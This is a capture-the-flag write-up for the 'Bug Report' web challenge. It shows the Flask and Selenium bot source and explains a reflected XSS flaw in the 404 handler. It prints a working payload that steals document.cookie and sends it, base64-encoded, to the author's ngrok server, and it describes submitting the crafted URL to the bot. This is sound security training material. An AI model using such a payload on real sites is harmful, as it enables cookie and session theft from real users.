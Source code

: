 # Web - Bug Report
This challenge came with downloadable source code that showed it to be a python flask app. The contents of `challenge/app.py`:
```py
from flask import Flask, request, render_template
from urllib.parse import unquote
from bot import visit_report

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/api/submit", methods=["POST"])
def submit():
    try:
        url = request.json.get("url")
        
        assert(url.startswith('http://') or url.startswith('https://'))
        visit_report(url)

        return {"success": 1, "message": "Thank you for your valuable submition!"}
    except:
        return {"failure": 1, "message": "Something went wrong."}


@app.errorhandler(404)
def page_not_found(error): 
    return "<h1>URL %s not found</h1><br/>" % unquote(request.url), 404

app.run(host="0.0.0.0", port=1337)
```
The contents of `app/bot.py`: 
```py
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.support.ui import WebDriverWait

def visit_report(url):

    options = Options()
    options.add_argument('headless')
    options.add_argument('no-sandbox')
    options.add_argument('disable-dev-shm-usage')
    options.add_argument('disable-infobars')
    options.add_argument('disable-background-networking')
    options.add_argument('disable-default-apps')
    options.add_argument('disable-extensions')
    options.add_argument('disable-gpu')
    options.add_argument('disable-sync')
    options.add_argument('disable-translate')
    options.add_argument('hide-scrollbars')
    options.add_argument('metrics-recording-only')
    options.add_argument('mute-audio')
    options.add_argument('no-first-run')
    options.add_argument('dns-prefetch-disable')
    options.add_argument('safebrowsing-disable-auto-update')
    options.add_argument('media-cache-size=1')
    options.add_argument('disk-cache-size=1')
    options.add_argument('user-agent=BugHTB/1.0')
    browser = webdriver.Chrome('chromedriver', options=options, service_args=['--verbose', '--log-path=/tmp/chromedriver.log'])

    browser.get('http://127.0.0.1:1337/')

    browser.add_cookie({
        'name': 'flag',
        'value': 'CHTB{f4k3_fl4g_f0r_t3st1ng}'
    })

    try:
        browser.get(url)
        WebDriverWait(browser, 5).until(lambda r: r.execute_script('return document.readyState') == 'complete')
    except:
        pass
    finally:
        browser.quit()
```
It looks like the main app just opens up selenium with a user provided URL, so the exploit seems to be to XSS to retrieve the cookie set in `bot.py`. 

The `app.py` is pretty short so the XSS vulnerability in the 404 page is easy to find. It passes the user provided URL directly into the returned HTML, allowing the user to inject any javascript they want. 

To exploit this, I created a payload that uses JS to read `document.cookie` and exfiltrates it to my server by creating an image with my server's URL. Here is the payload:
```html
<script>i=document.createElement('img');i.src="https://xxx.ngrok.io:xxxx/"+btoa(document.cookie);document.body.appendChild(i)</script>
```
Next, I crafted the URL`http://<instance_ip>/<urlencoded_payload>`and submitted it to the form on the homepage. I wasn't sure if the cookie was going to be HttpOnly and therefore inaccessible through `document.cookie`, but reading that variable worked fine. 

Soon, I got a request with the base64 encoded flag. 